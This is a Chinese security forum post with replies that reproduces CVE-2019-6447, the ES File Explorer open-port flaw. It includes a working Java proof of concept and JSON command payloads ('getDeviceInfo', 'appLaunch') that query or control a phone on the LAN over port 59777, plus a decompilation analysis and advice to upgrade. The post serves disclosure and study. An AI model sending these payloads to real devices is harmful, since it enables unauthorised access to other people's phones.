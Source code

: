 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.52pojie.cn](https://www.52pojie.cn/forum.php?mod=viewthread&tid=856993&highlight=CVE-2019-6447) ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)1941368542  今天看到关于 ES 文件浏览器的漏洞，觉得危险程度非常高，所以我简单的用 java 代码复现一下，首先关于 ES 文件浏览器，我就不多说了。非常著名的一款文件浏览器。  
漏洞利用就是该软件运行之后开启 TCP 59777 端口，该端口未关闭导致可以通过 HTTP 协议 POST 请求接收 JSON 数据，进行解析执行返回结果。  
环境：  
win10，IDEA，JDK 1.8.0_181，一加 5，Android P，ES 文件浏览器 4.1.9.7.4 之前 (我用的 4.1.8.3.1)  
  
  
复现：  
[Java] _纯文本查看_ _复制代码_

```
public class Test {
    public static void main(String[] args) {
String data = "{\"command\":\"getDeviceInfo\"}";
String path = "http://192.168.43.111:59777";
        URL url = null;
        try{
            url = new URL(path);
            HttpURLConnection conn = (HttpURLConnection) url.openConnection();
            conn.setRequestMethod("POST");
            conn.setConnectTimeout(5000);
            conn.setRequestProperty("User-Agent","curl/7.54.0");
            conn.setRequestProperty("Accept","*/*");
            conn.setRequestProperty("Content-Type","application/json");
            conn.setRequestProperty("Content-Length",data.length()+"");
            conn.setRequestProperty("Connection","close");
            conn.setDoOutput(true);
            conn.getOutputStream().write(data.getBytes());
            //获取响应码
            int code = conn.getResponseCode();
            System.out.println("响应码:"+code);
            //如果请求码为200
            if(code == 200){
                InputStream in = conn.getInputStream();
                String msg = tools.transStream(in);
                System.out.println(msg);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

返回结果：  
[Java] _纯文本查看_ _复制代码_

```
{"name":"ONEPLUS A5000", "ftpRoot":"/sdcard", "ftpPort":"3721"}

```

可以看到，我们通过 POST 请求提交了[Java] _纯文本查看_ _复制代码_

```
{"command":"getDeviceInfo"}

```

指令，就返回了我们手机的设备信息，更甚至我们可以通过指令来打开我们设备上安装的应用程序：  
POST 提交：  
[Java] _纯文本查看_ _复制代码_

```
{"command":"appLaunch", "appPackageName": "com.tencent.mm"}

```

提交该 json 数据，则可以直接打开我们手机上安装的微信。见 GIF 图  
![](https://attach.52pojie.cn/forum/201901/22/083328jvsw6ie6iece9cc6.gif)

**8.gif** _(599.99 KB, 下载次数: 2)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwM3wxNmNlZmY2Y3wxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:33 上传

  
**漏洞简要分析：**  
本次漏洞主要在：  
com.estrongs.fs.impl.adb.c  
com.estrongs.android.f.a  
这两个类里面，解压 ES 文件浏览器，得到 4 个 dex 文件  
![](https://attach.52pojie.cn/forum/201901/22/083428mz5363hz6hwyss3z.png)

**1.png** _(16.18 KB, 下载次数: 2)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwNXw2MmIzZDFhNXwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:34 上传

  
挨个使用 jadx 打开搜索 command 关键字，找到漏洞关键位置  
在 classes2.dex 中定位到 com.estrongs.android.f.a  
可以看到在 a 方法内  
![](https://attach.52pojie.cn/forum/201901/22/083456h4c1dadtdt4z149b.png)

**2.png** _(52.45 KB, 下载次数: 3)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwNnw0Y2Y5MWIwMnwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:34 上传

  
通过 command 获取到对应的指令，然后执行相应的方法，  
这里我就简单看一下获取设备信息的这条执指令：  
![](https://attach.52pojie.cn/forum/201901/22/083519vx00f6jr0pu83zov.png)

**3.png** _(26.38 KB, 下载次数: 3)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwN3xhYjIwYjMyNnwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:35 上传

  
在这里，如果[Java] _纯文本查看_ _复制代码_

```
str3.equals("getDeviceInfo")

```

成立，  
则执行 b 这个方法，并将 jSONObject 传进去，我们下拉定位到 b 这个方法  
![](https://attach.52pojie.cn/forum/201901/22/083600ydcb19vvw1t946wx.png)

**4.png** _(36.85 KB, 下载次数: 3)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwOHxiZTNmMjllMXwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:36 上传

  
可以看到这个方法是通过 StringBuilder，进行拼接设备信息，  
和 ftpPort 信息，然后进行返回。在看一下启动应用程序这条指令：  
![](https://attach.52pojie.cn/forum/201901/22/083635qp7zzccybgcpjb9b.png)

**5.png** _(23.83 KB, 下载次数: 1)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYwOXxlMzM2NDJkM3wxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:36 上传

  
可以看到如果传来指令为 appLaunch，  
则执行 a 这个方法，并将 jSONObject 传递过去，下拉定位到 a 这个方法，  
![](https://attach.52pojie.cn/forum/201901/22/083654e84qp4zpjvjjz6kk.png)

**6.png** _(52.97 KB, 下载次数: 3)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYxMHwwYzNmZjFlMnwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:36 上传

  
可以看到，他通过获取 appPackageName 对应的 String，  
然后进行非空判断，通过 Intent 将 appPackageName 对应的包名传入，  
然后通过 startActivity 启动该应用程序。通过以上分析，我们可以看出，ES 可以执行的指令还是很多的，有些危害还是比较严重的，  
所以目前使用 ES 文件浏览器的，请尽快升级到最新版本。  
![](https://attach.52pojie.cn/forum/201901/22/083724biq9jjri6oijj9j7.png)

**7.png** _(37.88 KB, 下载次数: 1)_

[下载附件](forum.php?mod=attachment&aid=MTM0NzYxMXxkNWYxMGY0MHwxNjIzOTExNzA1fDIxMzQzMXw4NTY5OTM%3D&nothumb=yes)

2019-1-22 08:37 上传

  
可以看到最新版是已经修复了该漏洞了。  
**本文同步发布于我的个人博客和吾爱[破解](https://www.52pojie.cn)，转载请注明链接。**  
**参考：**  
https://github.com/fs0c131y/ESFileExplorerOpenPortVuln  
![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)1941368542 

> [smuuupl 发表于 2019-1-22 15:52](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=23706567&ptid=856993)  
> 这么看，这不是 ES 文件浏览器内置的功能吗，咋还算上漏洞了。

是内置功能，但是不能任意人都可以向设备发送执行指令，最起码要对传入指令的身份合法性做一下校验。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)1941368542 

> [pikachu888 发表于 2019-1-22 09:23](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=23700751&ptid=856993)  
> 请问一下, 这个漏洞是只针对局域网吗? 如果是自己家里的局域网没有别人的设备是不是没有影响

是的，局域网。![](https://avatar.52pojie.cn/data/avatar/000/32/58/10_avatar_middle.jpg)ty186  啊啊！我还在用这个浏览器啊！要不要删除呢！！？![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)JinDex 

> [ty186 发表于 2019-1-22 08:59](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=23700309&ptid=856993)  
> 啊啊！我还在用这个浏览器啊！要不要删除呢！！？

删除吧, 不要用了![](https://static.52pojie.cn/static/image/smiley/default/17.gif) ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) yang19950324 看来是时候给我的 ES 文件浏览器升级一下了 ![](https://avatar.52pojie.cn/data/avatar/000/49/05/83_avatar_middle.jpg) DEFwa 收藏一个备用，谢谢啦 ![](https://avatar.52pojie.cn/data/avatar/000/81/00/07_avatar_middle.jpg) pikachu888 请问一下, 这个漏洞是只针对局域网吗? 如果是自己家里的局域网没有别人的设备是不是没有影响![](https://static.52pojie.cn/static/image/smiley/laohu/laohu8.gif) ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) l1679668663嗯哼    还得多看会 ![](https://avatar.52pojie.cn/data/avatar/000/29/56/33_avatar_middle.jpg)iamprole  还好我一直用的 x-prole。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)goinfor2008  看了这贴子，虽然不懂代码，还是赶紧把 ES 文件浏览器升级一下安全些。谢谢 LZ